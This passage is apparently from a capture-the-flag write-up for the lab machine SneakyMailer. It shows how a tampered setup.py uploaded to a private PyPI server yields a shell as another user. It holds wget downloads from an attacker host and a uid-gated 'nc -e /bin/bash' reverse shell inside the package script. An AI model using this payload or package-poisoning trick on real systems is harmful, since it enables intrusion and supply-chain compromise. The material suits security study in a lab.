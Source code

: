 ```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.197 - - [31/Aug/2020 19:55:27] "GET /setup.py HTTP/1.1" 200 -
10.10.10.197 - - [31/Aug/2020 19:56:07] "GET /.pypirc HTTP/1.1" 200 -

# Victim
developer@sneakymailer:/tmp$ mkdir pypi && cd $_
developer@sneakymailer:/tmp/pypi$ wget http://10.10.14.66:8000/setup.py
wget http://10.10.14.66:8000/setup.py
--2020-08-31 20:06:53--  http://10.10.14.66:8000/setup.py
Connecting to 10.10.14.66:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 734 [text/plain]
Saving to: ‘setup.py’

setup.py            100%[===================>]     734  --.-KB/s    in 0s      

2020-08-31 20:06:53 (140 MB/s) - ‘setup.py’ saved [734/734]

developer@sneakymailer:/tmp/pypi$ wget http://10.10.14.66:8000/.pypirc
wget http://10.10.14.66:8000/.pypirc
--2020-08-31 20:07:33--  http://10.10.14.66:8000/.pypirc
Connecting to 10.10.14.66:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 128 [application/octet-stream]
Saving to: ‘.pypirc’

.pypirc              100%[===================>]     128  --.-KB/s    in 0s      

2020-08-31 20:07:33 (4.46 MB/s) - ‘.pypirc’ saved [128/128]

```
Next, we change the HOME environment and make `setup.py` executable.
```
developer@sneakymailer:/tmp/pypi$ chmod +x setup.py
developer@sneakymailer:/tmp/pypi$ HOME=$(pwd)
developer@sneakymailer:~$ python3 setup.py sdist register -r local upload -r local
...
```
This gives a developer shell, whoops! Let's modify `setup.py` to only run when the userid is correct.
```
developer@sneakymailer:~$ grep low /etc/passwd
grep low /etc/passwd
low:x:1000:1000:,,,:/home/low:/bin/bash
```
So, we add this `if` into our `setup.py`:
```
...
# Reverse Shell
if os.getuid() == 1000:
	os.system('nc -e /bin/bash 10.10.14.66 4444')
...
```
Re-`wget` our setup script and rerun the commands.
```
developer@sneakymailer:~$ python3 setup.py sdist register -r local upload -r local
running sdist
running egg_info
writing example_pkg_YOUR_USERNAME_HERE.egg-info/PKG-INFO
writing dependency_links to example_pkg_YOUR_USERNAME_HERE.egg-info/dependency_links.txt
writing top-level names to example_pkg_YOUR_USERNAME_HERE.egg-info/top_level.txt
reading manifest file 'example_pkg_YOUR_USERNAME_HERE.egg-info/SOURCES.txt'
writing manifest file 'example_pkg_YOUR_USERNAME_HERE.egg-info/SOURCES.txt'
```